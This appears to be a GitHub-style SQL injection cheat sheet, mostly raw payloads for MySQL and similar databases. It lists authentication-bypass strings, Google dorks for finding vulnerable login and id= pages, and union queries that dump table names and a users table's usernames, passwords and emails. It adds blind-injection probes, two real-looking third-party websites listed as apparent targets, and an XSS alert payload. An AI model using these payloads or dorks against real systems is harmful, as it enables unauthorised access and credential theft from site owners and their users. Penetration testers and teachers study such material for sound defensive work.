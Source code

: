 # SQL-CHEAT-SHEET-
Use our SQL Injection Cheat Sheet to learn about the different variants of the SQL Injection vulnerability. In this cheat sheet you can find detailed technical information about SQL Injection vulnerabilities against MySQL, Microsoft SQL Server, Oracle and PostgreSQL SQL servers.

# About the SQL Injection Cheat Sheet

This SQL injection cheat sheet was originally published in 2007 by Ferruh Mavituna on his blog. We have updated it and moved it over from our CEO's blog. Currently this SQL Cheat Sheet only contains information for MySQL, Microsoft SQL Server, and some limited information for ORACLE and PostgreSQL SQL servers. Some of the samples in this sheet might not work in every situation because real live environments may vary depending on the usage of parenthesis, different code bases and unexpected, strange and complex SQL sentences. 

*********************************************************************************************************************************************************************************
------------------------------------------------ AUTHENTICATION BYPASS ATTACK ------------------------------------------------

1’ or ‘1’ = ‘1
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin' or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*

inurl:admin_login.php
inurl:admin/login.php
inurl:admin-login.php
inurl:adminlogin.php
*********************************************************************************************************************************************************************************
############ Some Google dorks for sql injection ###########
inurl:sql.php?id=
inurl:news_view.php?id=
inurl:select_biblio.php?id=
inurl:humor.php?id=
inurl:aboutbook.php?id=
inurl:fiche_spectacle.php?id=
inurl:article.php?id=
inurl:show.php?id=
inurl:staff_id=
inurl:newsitem.php?num=
inurl:readnews.php?id=

inurl: php?id=
inurl: asp?id=
inurl: net?id=
*********************************************************************************************************************************************************************************
____________________ ERROR & UNION SQL INJECTION __________________________
eg: http://vulnsite.com/news.php?id=1          :---  id=1' or id=2-1
to provoke errors
?id=0X01
?id=9999999999999999999999999999999999999999999999
?id=2"
?id=3") and '1'='1'
union select 1,2,3,4,5--+
php?id=-23 union select 1,2,3,4,5--+
.php?id=23 and false union select 1,2,3,4,5--+

testphp.vulnweb.com/artists.php?artist=-1 order by 4--
testphp.vulnweb.com/artists.php?artist=-1 order by 3--
testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,3--
testphp.vulnweb.com/artists.php?artist=-1 union select 1,database(),3--
testphp.vulnweb.com/artists.php?artist=-1 union select 1,version(),3--
testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --
testphp.vulnweb.com/artists.php?artist=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name=0x7573657273 -- 
union select 1,group_concat(uname,0x3a,pass,email),3 from users--

*********************************************************************************************************************************************************************************
################## FOR BLIND SQL #################
https://www.thaibusinessnews.com/readnews.php?id=2114
https://www.hotelone.com.pk/article.php?id=15
Two types of blind sql are there:- Normal Blind, Totally Blind

How to check? 
Conditions:- True or False

No Changes on the default page is "True" else "False"

Check for subselect or subquery (used for comparing)

id=1 and (select 1)=1 to check whether we can execute subquerry or not

and (select 1 from login limit 0,1)=1 ///Guessing method to find the table name
 
and (select substring(concat(1,password),1,1) from login limit 0,1)=1 //Guessing column name

and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>80 //checks the first character with the ascii value provided, if its true then we need to increase the value, if its false then we got the character.


=================================================================================================================================================================================
MACHINE_IP/sqli-labs/Less-8/?id=1' OR 1 < 2 --+ = True

MACHINE_IP/sqli-labs/Less-8/?id=1' OR 1 > 2 --+ = False

.

In sql language, there's a really useful function called SUBSTR() which extracts a substring from a string (starting at any position). 
It takes 3 input values:
1. Operated text (in our case database name)
2. Character to start with
3. Number of characters to extract


AND (substr((select database()),1,1)) - this will return us the first character of the database name. 


1' substr((select database()),1,1)) = s --+


MACHINE_IP/sqli-labs/Less-8/?id=1' AND (ascii(substr((select database()),1,1))) = 115 --+
 

Now try guessing the second letter using the comparison technique.

MACHINE_IP/sqli-labs/Less-8/?id=1' AND (ascii(substr((select database()),2,1))) < 115 --+


<script>alert("Happy-Hacking")</script>
